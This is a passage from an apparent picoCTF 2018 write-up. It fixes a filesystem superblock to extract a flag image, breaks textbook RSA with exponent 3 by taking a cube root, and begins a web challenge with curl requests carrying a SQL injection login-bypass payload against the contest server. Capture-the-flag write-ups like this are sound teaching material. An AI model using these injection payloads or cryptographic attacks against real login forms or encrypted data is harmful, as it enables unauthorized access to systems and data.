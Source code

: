 ```
00000420  00 20 00 00 00 20 00 00  80 00 00 00 00 00 00 00  |. ... ..........|
00000430  f8 48 be 5b 00 00 ff ff  53 ef 01 00 01 00 00 00  |.H.[....S.......|
                                   ^^ ^^
```
So let's just start hexedit and change *00 00* to *53 ef* at offset 0x438.
```
e2fsck ext-super-magic.img
ext-super-magic.img: clean, 512/1280 files, 3746/5120 blocks
7z x ext-super-magic.img
ls
filler...
...
flag.jpg
```
And the flag text is clearly visible in flag.jpg without any further fiddling.

# Safe RSA
### Cryptography: 250p
Now that you know about RSA can you help us decrypt this [ciphertext](https://2018shell2.picoctf.com/static/13bec9a07bdfacd12f6fdb0f2a122686/ciphertext)? We don't have the decryption key but something about those values looks funky..

```python
N = ... # big number, much bigger than c
e = 3
c = 2205316413931134031046440767620541984801091216351222789180573437837873413848819848972069088625959518346568495824756225842751786440791759449675594790690830246158935538568387091288002447511390259320746890980769089692036188995150522856413797
```
What looks funky here? Encryption in RSA is *c = m^e mod N*. What makes it hard to crack is the *mod N* part. But if *m^e < N* then it's easy, m is just the *e:th root of m^e*.
```python
import gmpy2

# c is same as above, e is 3
m = gmpy2.iroot(c, 3)
print hex(m[0])
```
Paste the output (remove leading 0x) and pipe it to *xxd -r -ps* to get the flag.

# The Vault
### Web Exploitation: 250p
There is a website running at http://2018shell2.picoctf.com:22430. Try to see if you can login!
[Source code](http://2018shell2.picoctf.com:22430/login.txt).

Check POST data in developer tools. Change debug to 1.
```bash
curl 'http://2018shell2.picoctf.com:22430/login.php' -d 'username=a&password=b&debug=1'
```
```html
<pre>username: a
password: b
SQL query: SELECT 1 FROM users WHERE name='a' AND password='b'

# Let's try to terminate string
curl 'http://2018shell2.picoctf.com:22430/login.php' -d "username=a' OR 1=1 --&password=b&debug=1"
<pre>username: a' OR 1=1 --
password: b
SQL query: SELECT 1 FROM users WHERE name='a' OR 1=1 --' AND password='b'
</pre><h1>SQLi detected.</h1>
```
Check source code for checks against SQL injections.